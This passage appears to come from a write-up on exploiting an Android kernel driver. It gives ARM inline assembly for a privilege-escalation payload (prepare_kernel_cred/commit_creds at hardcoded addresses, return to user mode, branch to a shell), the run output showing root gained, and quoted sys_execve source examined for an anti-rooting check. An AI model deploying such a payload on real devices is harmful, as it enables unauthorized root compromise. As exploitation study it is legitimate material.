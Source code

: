 1. prepare_kernel_cred
2. commit_creds
3. Return to user land
4. Get a shell!

We end up with the following:
```c
void get_root() {
    asm volatile(
        "ldr     R3, =0xc00795b8\n\t" // move prepare_kernel_cred address into r3
        "mov     R0, #0\n\t"          // argument for prepare_kernel_cred
        "blx     R3\n\t"              // call prepare_kernel_cred
                                      // result saved in r0
                                      
        "ldr     R3, =0xc00790dc\n\t" // move commit_kernel_cred address into r3
        "blx     R3\n\t"              // call commit_creds
                                      // should be root
        "mov r0, #0x10\n\t"           // register flags for user land mode
        "msr cpsr_c, r0\n\t"          // switch back to user land
        "ldr r0, =shell\n\t"          // load the address of the shell function into r0
        "blx r0\n\t"                  // branch to the address in r0
   );
}
```

Now returning this we should be done, and we should get a shell. We don't. I thought this was really weird. I would get something along these lines:
```bash
; ./run_armv7m.sh backup_tested_stuff.c
current uid: 2000

now opening bcm_audio_log
[*] address of shell: 0x10234
[*] trying to get shell

current uid: 0
[*] got root privileges
[*] did not get a shell!
```
So we're root suddenly, but we can't call execve to get a shell. I could see that we were indeed in userland, because I could create files etc. as root, using normal system calls:
```c
# pwd
/data/local/tmp
# ls -la
-rw-rw-rw- shell    shell     4468675 2023-05-15 16:44 app-debug.apk
-rwxr-xr-x shell    shell       41084 2023-05-30 22:27 exploit
--------w- root     root            0 2023-05-30 22:27 hello_userland
```
Now remember the foreshadowing from earlier? The anti-rooting feature? Let's dig a bit deeper into that. We can by grep-magic find the source code relevant for this anti-rooting.
```c
/* sys_execve() executes a new program.
 * This is called indirectly via a small wrapper
 */
asmlinkage int sys_execve(const char __user *filenamei,
			  const char __user *const __user *argv,
			  const char __user *const __user *envp, struct pt_regs *regs)
{
	int error;
	char * filename;

	filename = getname(filenamei);
	error = PTR_ERR(filename);
	if (IS_ERR(filename))
		goto out;
```